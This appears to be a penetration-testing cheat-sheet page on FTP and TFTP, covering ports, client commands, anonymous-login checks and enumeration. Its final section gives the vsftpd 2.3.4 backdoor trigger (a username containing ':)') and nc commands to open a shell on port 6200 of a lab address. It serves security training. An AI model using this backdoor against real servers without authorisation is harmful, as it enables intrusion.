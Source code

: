 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% hint style="info" %}
* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`Port 20`**</mark> <mark style="color:purple;">for</mark> <mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:orange;">**`Port 21`**</mark>**&#x20;**<mark style="color:purple;">**for Commands.**</mark>&#x20;
* <mark style="color:purple;">It can use</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">over</mark> <mark style="color:orange;">**`Port 69`**</mark> <mark style="color:purple;">for</mark> <mark style="color:orange;">**`TFTP`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Always check for</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login being enabled.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Basic Commands</mark>

* <mark style="color:purple;">Start the service:</mark>

{% code lineNumbers="true" %}
```bash
ftp <IP>
tftp <IP>
```
{% endcode %}

* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```

* <mark style="color:purple;">Download a file:</mark>

```sh
get <file>
```

* <mark style="color:purple;">Upload a file:</mark>

```sh
put <file_path> <destination_path>
```

* <mark style="color:purple;">Passive mode:</mark>

```sh
passive
```

* <mark style="color:purple;">Change the local directory for downloads:</mark>

```sh
lcd /home/<your-username>
```

* <mark style="color:purple;">Exit the session:</mark>

```shell
quit
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login is enabled, use</mark> <mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">:</mark>

```sh
curl -O ftp://<server-address>/path/to/file
```

***

#### <mark style="color:orange;">`TFTP`</mark>

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`binary`**</mark> <mark style="color:purple;">mode for non-text files:</mark>

```sh
mode binary
```

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`ASCII`**</mark> <mark style="color:purple;">mode for text files:</mark>

```sh
mode ascii
```

* <mark style="color:purple;">To look for files in the</mark>  <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">root:</mark>

```
find / -name file.txt
```
{% endhint %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```

* <mark style="color:purple;">This is the default config file for</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**`TFTP`**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">--></mark> <mark style="color:orange;">**`tftpd-hpa`**</mark>
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}
